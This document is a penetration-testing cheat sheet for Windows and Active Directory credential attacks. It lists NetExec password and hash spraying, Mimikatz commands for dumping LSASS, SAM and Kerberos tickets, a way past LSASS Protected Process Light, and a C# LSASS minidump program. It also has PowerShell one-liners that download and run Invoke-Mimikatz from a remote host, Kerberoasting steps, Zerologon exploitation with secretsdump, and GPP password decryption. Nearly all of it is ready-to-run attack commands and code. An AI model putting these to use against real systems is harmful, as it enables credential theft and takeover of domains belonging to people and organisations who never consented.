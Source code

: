 # Authentication

<details>

<summary>Credentials Spraying (hashes/passwords)</summary>

```bash
# Spray Hashes
nxc smb target.txt -u user.txt -H hashes.txt --continue-on-success

# Spray Passwords
nxc smb target.txt -u user.txt -p passwords.txt --continue-on-success
```

</details>

<details>

<summary>Dumping Creds (Mimikatz Commands)</summary>

**ALWAYS OPEN WITH ADMIN CMD.EXE**

```bash
token::elevate
privilege::debug
log
sekurlsa::logonpasswords
 # IF ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005) --> Need bypass PPL
lsadump::sam
lsadump::secrets
lsadump::cache

sekurlsa::tickets
```

```powershell
powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-PowerDump.ps1 -UseBasicParsing);Invoke-PowerDump"

powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-Mimikatz.ps1 -UseBasicParsing); Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'"
```

* If mimikatz is not dumping out required hashes/passwords, can try `mimikatz_2_1_1_x64.exe` (version 2.1.1). From [here](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip).

</details>

<details>

<summary>Getting Past Protected Process Light (PPL) for Mimikatz</summary>

* Detecting LSASS executing as Protected Process Light?

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

* How to workaround?
  * Must download mimidrv.sys in the same folder as mimikatz.exe&#x20;

<pre><code><strong>mimikatz # !+
</strong>mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
</code></pre>

</details>

<details>

<summary>Credential Dumping With NetExec (nxc)</summary>

<pre><code># Dump LSASS (Local Admin Privileges)
nxc smb 192.168.255.131 -u &#x3C;username> -p &#x3C;password> -M lsassy [--local-auth]

<strong># Dump SAM (Local Admin Privileges)
</strong>nxc smb 192.168.255.131 -u &#x3C;username> -p &#x3C;password> --sam [secdump] [--local-auth]
<strong>
</strong># Dump DPAPI (Local Admin Privileges)
nxc smb 192.168.255.131 -u &#x3C;username> -p &#x3C;password> --dpapi

<strong># Dump LSA Secrets (Domain Admin or Local Admin on DC)
</strong>nxc smb 192.168.255.131 -u &#x3C;username> -p &#x3C;password> --lsa [secdump]

# Dump NTDS.dit (Domain Admin or Local Admin on DC)
nxc smb 192.168.255.131 -u &#x3C;username> -p &#x3C;password> --ntds
</code></pre>

</details>

<details>

<summary>Mimikatz from dmp file</summary>

<pre><code><strong>using System;
</strong>using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;

namespace MiniDump
{
    class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId,
          IntPtr hFile, int DumpType, IntPtr ExceptionParam,
          IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle,
          int processId);

        static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp", FileMode.Create);
            Process[] lsass = Process.GetProcessesByName("lsass");
            int lsass_pid = lsass[0].Id;

            IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
            bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        }
    }
}
</code></pre>

* Release --> x64 --> .\Minidump.exe from local admin account&#x20;
* Lsass.dmp is saved in C:\Windows\tasks

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

</details>

<details>

<summary>Service Accounts Attacks</summary>

* When user wants to access resource hosted by SPN, client requirests a service ticket that is generated by DC
* Service ticket is encrypted through the password hash of the SPN&#x20;
* Application server then decrypt and validate the service ticket

```powershell
Add-Type -AssemblyName System.IdentityModel
```

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

* The following command will display all cached Kerberos tickets for the current user.

```powershell
klist
```

* To download the service ticket with `mimikatz`

```
privilege::debug
```

```powershell
kerberos::list /export
```

* To crack the service ticket to obtain cleartext password

```bash
sudo apt update && sudo apt install kerberoast
```

```bash
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

</details>

<details>

<summary>Abusing TGT and TGS tickets</summary>

```
mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::tickets
```

</details>

<details>

<summary>To dump the credentials of all logged-on users</summary>

```bash
mimikatz.exe
```

To engage the SeDebugPrivlege privilege, which will allow us to interact with a process owned by another account.

```sh
privilege::debug
```

```
sekurlsa::logonpasswords
```

</details>

<details>

<summary>Dump Machine Acc's hashes</summary>

```bash
# https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py
rpcdump.py <IP>|grep MS-RPRN
# https://github.com/NotMedic/NetNTLMtoSilverTicket
python dementor.py -u Guest -p ''  <target> <responder>
```

</details>

<details>

<summary>Zerologon</summary>

* Quick Win

[https://github.com/risksense/zerologon/blob/master/set\_empty\_pw.py](https://github.com/risksense/zerologon/blob/master/set_empty_pw.py)

<pre class="language-bash"><code class="lang-bash">python3 set_empty_pw.py DC01 192.168.194.165
<strong>secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
</strong><strong># secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'htb.local/forest$@10.10.10.161'
</strong></code></pre>

</details>

<details>

<summary>GPP Passwords</summary>

* When new Group Policy Preference is created --> XML file in SYSVOL share (Groups.xml) will contain all config data (including passwords)
* Microsoft patched it in 2014 to prevent admins from putting passwords into GPP&#x20;

```xml
# Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# GPPstillStandingStrong2k18
```

</details>
